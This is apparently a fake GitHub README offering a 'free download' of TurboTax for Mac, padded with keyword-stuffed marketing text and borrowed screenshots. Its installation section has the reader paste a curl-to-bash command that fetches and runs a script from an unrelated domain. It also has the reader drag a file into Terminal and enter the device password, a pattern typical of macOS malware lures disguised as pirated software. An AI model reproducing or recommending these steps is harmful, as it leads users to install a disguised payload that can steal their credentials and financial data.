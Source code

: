 # TurboTax For Mac — Free Download for macOS 📊

TurboTax for Mac is a powerful tax preparation software designed to simplify your tax filing process. Follow the instructions below to download and install it on your macOS device with ease. Get started today! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/turbotax)

If the download button doesn’t work, follow the step-by-step installation instructions below using the Terminal.

## 📦 How to Install TurboTax For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with TurboTax

- 📈 **Maximize Deductions**: Automatically identify and apply tax deductions tailored to your financial situation.
- 💻 **User-Friendly Interface**: Navigate through a sleek, macOS-optimized interface for a seamless tax filing experience.
- 🔒 **Secure Data Handling**: Protect your sensitive financial data with advanced encryption and secure cloud storage.
- 🧠 **Smart Recommendations**: Receive real-time guidance to optimize your tax returns and avoid costly mistakes.
- 📱 **Multi-Device Sync**: Access your tax data across devices with seamless cloud synchronization.
- 🛠 **Free Updates**: Stay compliant with the latest tax laws through regular software updates.

## About TurboTax

TurboTax for Mac is the leading tax preparation software designed specifically for macOS users, offering a streamlined way to file taxes with confidence. Whether you're a freelancer, small business owner, or individual taxpayer, TurboTax simplifies the process by guiding you through every step. With its intuitive interface and robust features, TurboTax ensures you maximize deductions while staying compliant with the latest tax regulations. Keywords: TurboTax free download, tax software for Mac, macOS tax preparation.

One of the standout features of TurboTax is its ability to automatically import financial data from banks, payroll providers, and investment platforms. This eliminates manual data entry, saving time and reducing errors. By leveraging smart algorithms, TurboTax identifies potential deductions and credits you might overlook, ensuring you get the maximum refund possible. Keywords: TurboTax for Mac free, tax filing macOS, free tax software.

For macOS users, TurboTax offers a native experience optimized for Apple’s ecosystem. The software integrates seamlessly with macOS features like Spotlight Search and iCloud, allowing you to access your tax documents effortlessly. Its clean design and step-by-step guidance make it accessible for both beginners and experienced filers. Keywords: download TurboTax Mac, tax preparation software, TurboTax macOS.

TurboTax also prioritizes security, using industry-standard encryption to protect your personal and financial information. Whether you're filing federal or state taxes, TurboTax ensures your data remains safe while providing real-time feedback to avoid errors. The software supports a wide range of tax scenarios, from simple W-2 filings to complex self-employment taxes. Keywords: TurboTax free macOS, secure tax software, tax filing for Mac.

Another key advantage is TurboTax’s commitment to keeping users updated with the latest tax laws. Regular updates ensure compliance with federal and state regulations, making it a reliable choice for macOS users. With TurboTax, you can file your taxes quickly, accurately, and with peace of mind. Keywords: TurboTax download free, macOS tax app, free tax preparation.

### Advantages of TurboTax for Mac

TurboTax for Mac stands out due to its seamless integration with macOS, robust security features, and comprehensive tax support. Unlike other tax software, TurboTax offers a native macOS experience, ensuring smooth performance and compatibility with Apple’s ecosystem. Its real-time error checking, personalized recommendations, and free updates make it the go-to choice for macOS users looking to simplify tax season. Keywords: TurboTax for Mac download, tax software macOS, free TurboTax.

## 🖼 Preview

![TurboTax Dashboard](https://fileinfo.com/img/sw/ss/xl/intuit_turbotax_166.png) 
*Clean and intuitive dashboard for easy tax filing.*

![Deduction Finder](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_1.jpg)  
*Automatically identifies deductions to maximize your refund.*

![Secure Data Input](https://mac-cdn.softpedia.com/screenshots/TurboTax-2012_6.jpg)  
*Securely import financial data with advanced encryption.*


## 🔍 Tags

TurboTax free download, TurboTax for Mac, tax software for Mac, macOS tax preparation, TurboTax macOS, download TurboTax Mac, free tax software, tax filing macOS, secure tax software, TurboTax download free, TurboTax free, TurboTax download, TurboTax free mac, TurboTax download, TurboTax download free, TurboTax mac
